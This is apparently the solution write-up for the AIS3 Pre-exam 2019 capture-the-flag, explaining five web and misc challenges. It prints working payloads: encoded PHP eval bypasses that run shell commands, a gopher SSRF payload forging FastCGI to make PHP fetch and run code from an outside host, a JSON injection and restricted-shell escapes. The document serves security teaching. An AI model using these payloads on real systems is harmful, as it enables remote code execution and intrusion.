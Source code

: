 # AIS3 Pre-exam 2019

佛系出題，每題都不擋非預期，每題都有多種簡單解法 (´・ω・`)

| Name  | Tags   | Solves | Category |
|-------|------|-------|--------|----------|
| SimpleWindow  | ServiceWorker, warmup | 316 | Web  |
| 3v4l  | PHP, Bash, seadog | 28 | Web  |
| BabySSRF | SSRF, PHP, FastCGI | 3 |  Web  |
| Are you admin?  |	Ruby, JSON | 181 | Misc  |
| Pysh  | Python, Bash | 64 |  Misc


## Web

### Simple Window

- **Solved**: 316
- 預期難度: ☆ ~ ★

<br>

- 訪問`/`時會安裝 Service Worker
- 然後把`/flag` cache成別的頁面
- 把 Service Worker 取消或是關掉js就可
- 或是在第一次安裝時，它其實會去 fetch `/flag` 內容，你只要這時候抓這個 response 就行
    - 瀏覽器 / BurpSuite 是你的好朋友

### 3v4l

- **Solved**: 28
- 預期難度: ★★ ~ ★★★

<br>

- 這題會把`$_GET["#"]`丟進`eval`跑
    - 瀏覽器送記得 urlencode 一下
    - `#` => `%23`
- 限制長度不能超過 18

- 解法一 (預期解)
    - PHP的`NOT`運算
    - `~%8C%86%8C%8B%9A%92` = `system`
    - `~%93%8C%DF%D0` = `ls /`
    - 組合起來: `(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);`
        - 就等於`system("ls /");`
        - 這邊可以得到flag name: `here_is_your_flag`
    - 最後去讀 flag:
        - `(~%9A%87%9A%9C)(~%9C%9E%8B%DF%D0%97%D5);`
        - `exec("cat /h*");`

- 解法二
    - 忘記擋 ``` `` ``` 和 `?`
    - 直接``` `/???/??? /*`;  ```
    - 相當於``` `/bin/cat /*`; ```

- 解法三
    - ``` `\\143\\141\\164%20/*`; ```
    - 等同``` `cat /*`; ```

- 解法四
    - 來自 @cyku 大佬 
    - ``` `{${~%A0%B8%BA%AB}[0]}`; ```
    - `~%A0%B8%BA%AB` =  `_GET`
    - 把`$_GET[0]`拿去執行
    - 完整 getshell

### BabySSRF 

- **Solved**: 3
- 預期難度: ★★★ ~ ★★★★

<br>

- 這題很單純把輸入的URL拿去curl跑
- 然後擋掉`file:`, `ftp:`, `flag`, `index.php`, metadata 等關鍵字
    - `gopher://`沒擋
    - 可以任意 SSRF 構造 TCP packet
- 從`/robots.txt`可以找到`info.php`
    - 單純 `phpinfo`
    - 這邊就暗示後端是用 PHP-FPM 跑的

- 所以目標很明確，就是構造 FastCGI Protocol 去 RCE
    - 但限制長度只能 `236 Bytes`

- 構造 FastCGI Protocol 很容易，網路上隨便找都有 Payload generator
    - 但長度一般都很長，必須想辦法壓下來

- 壓 Payload 長度
    - `127.0.0.1` 可以換成 `0`
    - urlencode處理好 (只有 NULL Byte 和換行需要 Double encode)
    - 大部分 Params 都能拔掉
        - 重要的只有`REQUEST_METHOD`和`PHP_VALUE`
        - 如果要在單個 Request 內就執行`prepend_file`的話，要加`SCRIPT_FILENAME`
        - 多個 Request 的話，可以拔掉`SCRIPT_FILENAME`，先把設定寫進去
            - 譴責這種解法
            - 需要一直狂送 Payload
            - 會把全部 fpm process 設定寫掉，影響別人解題
    - 買個短一點的 domain (X
        - 看看某海狗長度5的 domain (貧窮限制了我的想像力)
    - 剩下就慢慢看 FastCGI 結構去優化

- 範例 Payload:
    - `gopher://0:9000/_%01%01%2500%01%2500%08%2500%2500%2500%01%2500%2500%2500%2500%2500%2500%01%04%2500%01%2500%7F%2500%2500%0E%03REQUEST_METHODGET%0F%16SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Finfo.php%09%3APHP_VALUEallow_url_include%3DOn%250Aauto_prepend_file%3Dhttp%3A%2F%2Fkaibro.tw%01%04%2500%01%2500%2500%2500%2500%01%05%2500%01%2500%2500%2500%2500`
    - 打開`allow_url_include`
    - 設定`auto_prepend_file=http://kaibro.tw`
    - Payload generator 請參考 [gen_payload.php](https://github.com/w181496/AIS3-PreExam-2019/blob/master/BabySSRF/gen_payload.php)

- RCE 之後，`/readflag`會生兩個 random integer 要你相加，答案正確才噴 flag
    - 但 timeout 只有 1 秒
    - 除非你心算和手速異於常人，不然應該沒辦法手算
    - 這邊我的解法: `mkfifo pipe; cat pipe | /readflag |(read l;echo "$((${l::11}))\n" > pipe;cat)`

## Misc

### Are you admin ?

- **Solved**: 181
- 預期難度: ★★ ~ ★★☆ 

<br>

- 這題會去用 JSON parse 一個字串
    - `"{\"name\":\"#{name}\",\"is_admin\":\"no\", \"age\":\"#{age}\"}"`
- 字串前後的`name`和`age`都可控
    - age 不能用英文字
    - 但非英文都可 (包含特殊符號)
- 中間有一個`"is_admin":"no"`
- 目標是把 parse 完的`is_admin`蓋成`yes`

- 解法一 (預期解)
    - Ruby json 可以用註解
    - name: `","is_admin":"yes",/*`
    - age: `*/"@":"@`
    - 合起來: `{"name":"","is_admin":"yes",/*","is_admin":"no", "age":"*/"@":"@"}`
- 解法二
    - 用`{}`去包`is_admin`
    - name: `","is_admin":"yes","x":{"":"`
    - age: `"},"":"`
    - 合起來: `{"name":"","is_admin":"yes","x":{"":","is_admin":"no", "age":""},"":""}`

### Pysh

- **Solved**: 64
- 預期難度: ★★ ~ ★★★

<br>

- 這題限制你不能用大部分小寫英文和一堆特殊符號
- 目標是想辦法用剩下的字元去 RCE

- 解法一 (預期解)
    - `read`預設結果會存放到`$REPLY`
    - 所以`read;$REPLY`就能 RCE
    - 也能`read a;$a`
- 解法二
    - `$SHELL`
    - 最多人用
- 解法三
    - `$BASH`
- 解法四
    - ``` a=`pr -T`;$a ```


----

p.s. 如果有人有其他解法歡迎發PR給我 <3
